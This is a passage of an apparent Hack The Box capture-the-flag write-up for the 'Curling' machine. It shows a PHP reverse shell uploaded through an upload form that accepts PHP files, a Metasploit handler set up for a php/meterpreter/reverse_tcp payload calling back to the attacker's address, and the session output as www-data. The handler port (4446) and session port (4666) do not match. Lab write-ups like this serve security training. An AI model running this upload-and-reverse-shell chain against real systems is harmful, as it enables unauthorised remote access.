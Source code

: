 The file upload functionality on the main page was abused to upload the shell sucessfully as it allows php files. 

![](/assets/images/htb-writeup-curling/php.png)

setup and run the msf handler

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost tun0
msf exploit(multi/handler) > set lport 4446
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.210:4446
```

Clicking on the link in the upload dialogue establishes the shell 

`http://10.10.10.150/images/php-meterpreter-staged-reverse-tcp-4666.php`


```
[*] Sending stage (38247 bytes) to 10.10.10.150
[*] Meterpreter session 1 opened (10.10.14.210:4666 -> 10.10.10.150:42196) at 2018-12-11 16:43:13 +0000

msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                   Information              Connection
  --  ----  ----                   -----------              ----------
  1         meterpreter php/linux  www-data (33) @ curling  10.10.14.210:4666 -> 10.10.10.150:42196 (10.10.10.150)

msf exploit(multi/handler) > sessions -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : curling
OS          : Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```
